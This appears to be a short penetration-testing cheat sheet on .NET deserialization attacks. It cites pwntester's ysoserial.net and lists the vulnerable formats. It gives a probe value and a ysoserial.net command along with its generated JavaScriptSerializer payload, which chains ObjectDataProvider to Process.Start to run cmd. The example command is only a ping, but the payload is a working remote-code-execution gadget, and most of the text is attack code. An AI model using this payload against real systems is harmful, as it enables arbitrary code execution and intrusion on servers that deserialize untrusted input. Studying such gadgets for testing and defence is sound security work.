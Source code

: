 # Deserialization: .NET

From:
- https://speakerdeck.com/pwntester/attacking-net-serialization
- https://github.com/pwntester/ysoserial.net

.NET Deserilization vulnerabilities can occur in
- Raw Binary
- XML
- JSON
- JavaScript
- SOAP

## JavaScript Deserializer

To test, send a JSON payload of

```javascript
{"__type":""}

```

That should cause an error

Payload generated with ysoserial.net

```javascript
.\ysoserial.exe -o raw -g ObjectDataProvider -f JavaScriptSerializer -c "ping 127.0.0.1"
	{
	    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
	    'MethodName':'Start',
	    'ObjectInstance':{
	        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
	        'StartInfo': {
	            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
	            'FileName':'cmd',
	            'Arguments':'/c ping 127.0.0.1'
	        }
	    }
	}
```